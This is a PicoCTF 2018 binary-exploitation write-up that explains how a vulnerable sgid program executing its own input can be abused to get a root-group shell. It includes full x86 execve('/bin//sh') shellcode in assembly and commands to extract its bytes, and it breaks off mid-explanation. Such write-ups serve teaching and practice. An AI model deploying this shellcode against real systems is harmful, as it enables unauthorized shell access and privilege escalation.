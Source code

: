 # PicoCTF_2018: shellcode

**Category:** Binary Exploitation
**Points:** 200
>This program executes any input you give it. Can you get a shell? 
You can find the program in /problems/shellcode_1_cec2eb801137d645a9f15b9b6af5347a on the shell server. Source.

> # Introduction

In this write-up I am going to demostrate how to gain shell access by exploiting this vulnerable program.
I shall show it in both 32bit and 64bit systems and you'll see the main differences.

> # Prerequisites:

You need to have some basic knowledge about C, gcc, linux command line, linux file permissions and x86 assembly. 

> # Scenario:

We have access to a system with an executable binary and a txt file containing the flag. The txt file is owned by a group 
that we are not members, so we don't have access. However, the executable binary is owned from tha same group and it has the sgid bit set. If we exploit it
and gain shell access we will grant privileges. As a result, we will be capable of reading the flag.txt to find the solution.
More about linux file permissions and sgid [here]

> # Setting up the environment:
First of all you need to download the executable and the flag from my git repository [here](https://github.com/giannoulispanagiotis/picoCTF-2018-wiretup/tree/master/shellcode)
Now we need to set up the permissions for both of the files to create the right scenario.

1. For the executable file vuln:

```bash
[sudo] chown root:root vuln
[sudo] chmod g+s vuln
```


2. For the flag file
```bash
[sudo] chown root:root flag.txt
[sudo] chmod 440 flag.txt 
```
Confirm by listing the file with ls -l vuln flag.txt. The result have to be something like that:

```
-r--r----- 1 root root 35 Oct 5 00:27 flag.txt
-rwxr-sr-x root root 725472 Oct 5 00:23 vuln
```

As you can see flag's and vuln's group ownership is root. But our user is not in root's group unfortunately. As you can see flag.txt is readable only from owner(root) and the members of the group's ownership(root again). But in vuln's file permissions we notice two things. First group's ownership is also root and vuln has the sgid bit set. Which means that if we gain shell access from this executable our group id  will be root (0). I'll make it clear with screenshots soon. 

Okay now let's go to some nice stuff.
> # Shellcode Injection
We need to understand how the vuln program works. For this purpose we will make use of gdb to disassemble the program and find what it does.
This is how it looks like. (It may not be exactly the same in your case)


Nice, we see that the compiled binary is 32bit.
Inside the two functions (main and vuln) we have to observe two 2 things.
In the vuln function we see gets being called (which is vulnerable because doesn't check the size of our input, so we can overflow the buffer, but we don't need it in this program, it's much easier), so binary waits for input from stdin. Moreover, in the main function we can see the vulnerability we will exploit. **<main + 124>: call eax**
We want to find what it is inside register eax before we call it so we set a breakpoint before this instruction. Going down there we realize that in eax register is the address of the stack where our input is saved. So when we call eax, we tell our system  to go to this address and execute the instructions that will find there. Thus we understand that if we put in the right input (a shellcode) we can easily gain access. And .... let's go write this shellcode whatsoever.

> # Crafting Shellcode
I will try explain the shellcode that we will create in brief. First create shellcode.asm with the following code:
(Remember, memory is upside down, so when we want to push in the stack a string e.g. /bin/sh\0 we have to do it like that:
push \0 (null)
push //sh in hex
push /bin in hex
In 32 bit systems in a memory block fit 4 bytes, so we split our string. We also use 2 '//' so that we cover the whole block(4 bytes), albeit there will be something else in the 4th byte that we don't want to. /bin/sh and /bin//sh have no difference.

```asm
xor eax, eax ; clearing eax register
push eax     ; Pushing NULL bytes (\0)
push 0x68732f2f ; Pushing //sh
push 0x6e69622f  ; Pushing /bin
mov ebx, esp     ; ebx has address of /bin//sh
push eax         ; Pushing NULL byte (for argv array)
mov edx, esp     ; edx now has address of NULL byte
push ebx         ; pushing address of /bin//sh
mov ecx, esp     ; ecx now has address of address of /bin//sh 
mov al, 0xb    ; syscall number of execve is 11
int 0x80         ; system call
```

We call the execve function to get a shell.
In 32bit systems arguments of a function go in that way: eax, ebx, ecx, edx
Our function is:
```C
 int execve(const char *filename, char *const argv [], char *const envp[]);
```

This means we're passing the fllowing:
eax // Syscall of execve == 11 == 0xb
ebx // Arg#1: pointer to the program string ("/bin//sh")
ecx // Arg#2: pointer to the argunments array
(argv[0] = "/bin//sh" , argv[1] = NULL)
edx // Arg#3: pointer to the environment array (NULL)

To compile it use nasm:

```bash
nasm -f elf shellcode.asm
```

Now we want to get the shellcode bytes in hex format.
If we use objdump -d shellcode.o the result is our assembly code and the hexadecimal format of it. To keep only the hex code we can use this command:
```bash
for i in $(objdump -d shellcode.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo;
```
grep is used to keep only lines with a space in the beginning. cut -f2 





